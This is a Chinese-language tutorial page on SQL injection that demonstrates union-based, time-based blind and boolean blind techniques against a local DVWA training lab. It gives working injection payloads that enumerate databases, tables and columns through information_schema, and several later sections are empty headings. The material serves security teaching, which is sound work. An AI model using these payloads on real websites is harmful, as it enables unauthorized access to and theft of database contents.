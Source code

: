 # SQL注入攻击
?> 在学习SQL注入之前，你需要掌握[SQL基础](SQL)部分。

SQL注入是注入攻击的一种，攻击者可以执行恶意SQL语句。利用SQL注入漏洞，攻击者可以检索、添加、修改和删除数据库中的记录，甚至可以获取数据库服务器权限。

![SQL injection](../../assets/img/sql-injection.svg)

## SQL注入类型

### 联合查询注入

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

1. 寻找注入点，判断是否存在注入

   尝试添加单引号。如果提示语法错误，说明可能存在注入漏洞。
   
   ```
   id=1'
   ```
   错误信息
   
   ```
   You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
   ```
   产生语法错误的原因，SQL语句多了单引号，无法正确闭合。
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '1'';
   ```

2. 判断字段数

   使用`ORDER BY`查询语句，采用二分法，得字段数为2。
   ```
   id=1' order by 1%23 //正常
   id=1' order by 2%23，//正常
   id=1' order by 3%23 //报错
   ```

3. 判断显示位

  ?> 令`id=-1`，即第一个查询语句返回结果为空，在只显示一条结果的情况下，可以展示我们构造的第二个查询语句结果。另外，显示内容字段位置，称之为`显示位`。
  ```
  http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=-1' UNION SELECT 1,2%23&Submit=Submit#
  ```
  显示位是1和2
  ![image-20210820171654815](../../assets/img/image-20210820171654815.png)

4. 读取内容

   - 数据库

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' union select 1,group_concat(schema_name)+from+information_schema.schemata%23&Submit=Submit
     ```

   - 表名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema= database()#&Submit=Submit
     ```

   - 字段名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_schema=database()%20AND%20table_name=%27users%27%23&Submit=Submit
     ```

### 报错注入

### 盲注

盲注，特点是页面不显示查询结果和错误信息。

#### 基于时间的盲注

if(条件，成立，不成立)
```sql
mysql> select if(2>1,sleep(5),666);
+----------------------+
| if(2>1,sleep(5),666) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (5.00 sec)
```

```
id=1’ and if(ascii(substr(database(),1,1))>100,sleep(1),2=1)%23
```

#### 基于布尔的盲注

```
id=1' and (select ascii(substr(database(),2,1))>114)%23
```

条件成立，页面显示正常，否则不正常

### 带外通道注入

### 二次注入

### 宽字节注入

## 参考资料

- PortSwigger，[SQL Injection](https://portswigger.net/web-security/sql-injection)
- OWASP，[SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [The SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

